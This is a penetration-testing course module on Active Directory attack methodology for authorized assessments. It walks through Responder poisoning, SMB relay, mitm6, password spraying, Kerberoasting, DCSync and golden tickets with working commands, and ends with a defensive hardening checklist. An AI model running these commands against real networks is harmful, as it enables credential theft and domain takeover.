

# Module 7: TCM Security Practical Active Directory Penetration Testing Methodology (PNPT Framework)

> **Curriculum Alignment**: Practical Network Penetration Tester (PNPT) & Practical Ethical Hacking (PEH) Active Directory exploitation flow.  
> **Approach**: Real-world black-box internal network assessment from unauthenticated visitor to Domain Compromise.

---

## 🧭 The TCM Security Internal Assessment Methodology



---

## 1. Phase 1: Gaining the Initial Foothold (Zero Credentials)

When plugged into an internal corporate network jack or guest Wi-Fi with zero domain credentials:

### 1.1 LLMNR & NBT-NS Poisoning (Responder)
* **Mechanics**: When a Windows client attempts to reach an intranet resource with a typo (e.g., `\\fileshare01` instead of `\\fileshare`), DNS fails. The client broadcasts Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) queries asking *"Who is fileshare01?"*
* **Exploitation**: An attacker on the local subnet responds saying *"I am fileshare01; send me your NetNTLMv2 hash to authenticate."*
* **Syntax**:
  ```bash
  # Passive credential capture on network interface eth0
  sudo responder -I eth0 -dwv
  ```
* **Offline Cracking**:
  ```bash
  # Crack NetNTLMv2 hashes captured by Responder
  hashcat -m 5600 hashes.txt rockyou.txt -r rules/best64.rule
  ```

### 1.2 SMB Relay Attacks (ntlmrelayx)
* **Mechanics**: If SMB Signing is **not required** on target workstations or servers, an attacker does not need to crack the NetNTLMv2 hash. Responder captures the authentication challenge-response and relays it in real time to another workstation where the victim is a Local Administrator.
* **Exploitation**:
  1. Disable SMB and HTTP in `Responder.conf` (`SMB = Off`, `HTTP = Off`).
  2. Launch Responder to poison queries:
     ```bash
     sudo responder -I eth0 -dwv
     ```
  3. Launch `ntlmrelayx` targeting machines with SMB signing disabled:
     ```bash
     impacket-ntlmrelayx -tf targets.txt -smb2support -socks
     ```
  4. Dump local SAM hashes or execute interactive SOCKS proxy sessions once an administrator's machine connects.

### 1.3 IPv6 DNS Takeover (mitm6)
* **Mechanics**: Modern Windows systems query for IPv6 configuration via DHCPv6 by default, even if the enterprise only uses IPv4.
* **Exploitation**:
  ```bash
  # Spoof DNS server via DHCPv6 and relay to Domain Controller LDAP
  sudo mitm6 -d corp.local
  impacket-ntlmrelayx -6 -t ldaps://dc.corp.local -wh fakewpad.corp.local --delegate-access
  ```

---

## 2. Phase 2: Domain Enumeration & Mapping

Once valid low-privilege domain credentials (`CORP\jsmith:Password123!`) are obtained:

### 2.1 NetExec / CrackMapExec Network Sweeping
```bash
# Verify credentials across the entire subnet and identify local admin access (Pwn3d!)
netexec smb 192.168.1.0/24 -u jsmith -p Password123!

# Enforce password spraying across the entire domain without locking accounts
netexec smb <DC_IP> -u users.txt -p Summer2024! --continue-on-success
```

### 2.2 BloodHound Graph Collection
```bash
# Ingest entire domain topology remotely via LDAP from Linux
bloodhound-python -d corp.local -u jsmith -p Password123! -gc corp.local -c All -dc dc01.corp.local --zip
```
* Upload the generated ZIP file into the BloodHound GUI.
* Run built-in analytics queries:
  * *Find Shortest Paths to Domain Admins*
  * *Find Principals with DCSync Rights*
  * *Find Workstation Admin to High Value Targets*

---

## 3. Phase 3: Local Privilege Escalation

Elevating from a standard user to `NT AUTHORITY\SYSTEM` on a compromised endpoint:

1. **Unquoted Service Paths**:
   * A service executable path containing spaces without quotation marks (e.g., `C:\Program Files\Vulnerable App\service.exe`).
   * Windows attempts to execute `C:\Program.exe`, then `C:\Program Files\Vulnerable.exe`.
2. **AlwaysInstallElevated**:
   * Registry keys `HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1` and `HKLM\...\AlwaysInstallElevated = 1` permit any user to run `.msi` installers with full `SYSTEM` rights.
3. **Token Impersonation (SeImpersonatePrivilege)**:
   * Service accounts (e.g. `IIS APPPOOL` or `MSSQLSERVER`) possessing `SeImpersonatePrivilege` can leverage tools like **PrintSpoofer** or **GodPotato** to hijack named pipes and elevate immediately to `NT AUTHORITY\SYSTEM`:
     ```cmd
     PrintSpoofer.exe -i -c cmd.exe
     GodPotato-NET4.exe -cmd "cmd.exe /c whoami"
     ```

---

## 4. Phase 4: Domain Escalation & Lateral Movement

### 4.1 Kerberoasting
```bash
# Request TGS tickets for all user accounts with SPNs set
impacket-GetUserSPNs corp.local/jsmith:Password123! -dc-ip 192.168.1.10 -request -outputfile kerberoast.hashes

# Crack offline with Hashcat
hashcat -m 13100 kerberoast.hashes rockyou.txt
```

### 4.2 AS-REP Roasting
```bash
# Query accounts with DONT_REQ_PREAUTH
impacket-GetNPUsers corp.local/ -usersfile users.txt -format hashcat -outputfile asrep.hashes -dc-ip 192.168.1.10

# Crack offline with Hashcat
hashcat -m 18200 asrep.hashes rockyou.txt
```

### 4.3 Lateral Movement Protocols
* **Evil-WinRM (Port 5985/5986)**:
  ```bash
  evil-winrm -i 192.168.1.50 -u Administrator -H <NTLM_HASH>
  ```
* **WMIexec (RPC Port 135 + Dynamic Ports)**:
  ```bash
  impacket-wmiexec -hashes :<NTLM_HASH> corp.local/Administrator@192.168.1.50
  ```

---

## 5. Phase 5: Domain Dominance & Persistence

### 5.1 DCSync Attack (secretsdump.py)
Once possessing credentials with replication rights or a compromised Domain Admin session:
```bash
# Dump all NTDS.dit password hashes over MS-DRSR protocol
impacket-secretsdump -hashes :<DA_HASH> corp.local/Administrator@192.168.1.10 -outputfile corp_hashes
```
* Extracts:
  * Plaintext machine account passwords
  * Kerberos master keys (`krbtgt`)
  * Every domain user's NTLM hash

### 5.2 Golden Ticket Creation
```bash
# Forge persistent Ticket Granting Ticket valid for 10 years
impacket-ticketer -nthash <KRBTGT_HASH> -domain-sid S-1-5-21-XXXXX -domain corp.local -user-id 500 Administrator
export KRB5CCNAME=Administrator.ccache
impacket-psexec corp.local/Administrator@dc01.corp.local -k -no-pass
```

---

## 6. Defensive Hardening Checklist (TCM Security Standard)

1. **Disable LLMNR & NBT-NS**: Deploy Group Policy setting `Turn off multicast name resolution` under *Computer Configuration > Administrative Templates > Network > DNS Client*.
2. **Require SMB Signing**: Enable `Microsoft network server: Digitally sign communications (always)` on all domain computers to eliminate SMB Relay attacks.
3. **Audit SPNs & Enforce gMSAs**: Transition legacy service accounts to Group Managed Service Accounts with 120-character auto-rotating passwords.
4. **Deploy LAPS Everywhere**: Enforce unique, randomized local administrator passwords on all workstations and servers.
5. **Enable LSA Protection (`RunAsPPL`)**: Prevent non-protected processes from reading LSASS memory to block Mimikatz and credential dumping.
